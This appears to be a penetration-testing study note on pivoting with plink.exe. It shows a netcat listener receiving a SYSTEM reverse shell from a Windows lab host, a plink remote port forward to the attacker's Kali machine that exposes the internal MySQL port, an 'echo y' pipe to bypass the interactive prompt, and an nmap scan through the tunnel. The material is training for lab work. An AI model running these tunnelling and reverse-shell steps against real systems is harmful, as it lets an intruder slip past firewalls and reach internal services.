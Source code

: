 ```yaml
---
description: >-
  Plink
title:  Plink             # Add title here
date: 2023-11-13 08:00:00 -0600                           # Change the date to match completion date
categories: [09 Port Redirection and Tunneling, Plink]                     # Change Templates to Writeup
tags: [port redirection and tunneling, plink]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


To demonstrate this, assume that we have gained access to a Windows 10 machine during our assessment through a vulnerability in the Sync Breeze software and have obtained a SYSTEM-level reverse shell.

```bash
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 49937
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

During the enumeration and information gathering process, we discover a MySQL service running on TCP port 3306.

```powershell
C:\Windows\system32>netstat -anpb TCP
netstat -anpb TCP 

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
 [syncbrs.exe]
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  RpcSs
 [svchost.exe]
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
 Can not obtain ownership information
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
 [mysqld.exe]
```

We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.

We will transfer [plink.exe](http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html), a Windows-based command line SSH client (part of the PuTTY project) to the target to overcome this limitation. The program syntax is similar to the UNIX-based ssh client:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe
plink.exe
Plink: command-line connection utility
Release 0.70
Usage: plink [options] [user@]host [command]
       ("host" can also be a PuTTY saved session name)
Options:
  -V        print version information and exit
  -pgpfp    print PGP key fingerprints and exit
  -v        show verbose messages
  -load sessname  Load settings from saved session
  -ssh -telnet -rlogin -raw -serial
            force use of a particular protocol
  -P port   connect to specified port
  -l user   connect with specified username
  -batch    disable all interactive prompts
  -proxycmd command
            use 'command' as local proxy
  -sercfg configuration-string (e.g. 19200,8,n,1,X)
            Specify the serial configuration (serial only)
The following options only apply to SSH connections:
  -pw passw login with specified password
  -D [listen-IP:]listen-port
            Dynamic SOCKS-based port forwarding
  -L [listen-IP:]listen-port:host:port
            Forward local port to remote address
  -R [listen-IP:]listen-port:host:port
            Forward remote port to local address
  -X -x     enable / disable X11 forwarding
  -A -a     enable / disable agent forwarding
  -t -T     enable / disable pty allocation
...
```

We can use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) with the following command:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

The first time plink connects to a host, it will attempt to cache the host key in the registry. If we run the command through an rdesktop connection to the Windows client, we can see this interactive step:

![Plink-sh](/assets/img/Pasted image 20230503172914.png)

However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:

```powershell
C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$  
```

Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:

```bash
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234

Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-20 05:00 EEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

The setup seems to be working. We have successfully scanned the Windows 10 machine's SQL service through a remote port forward on our Kali attack machine.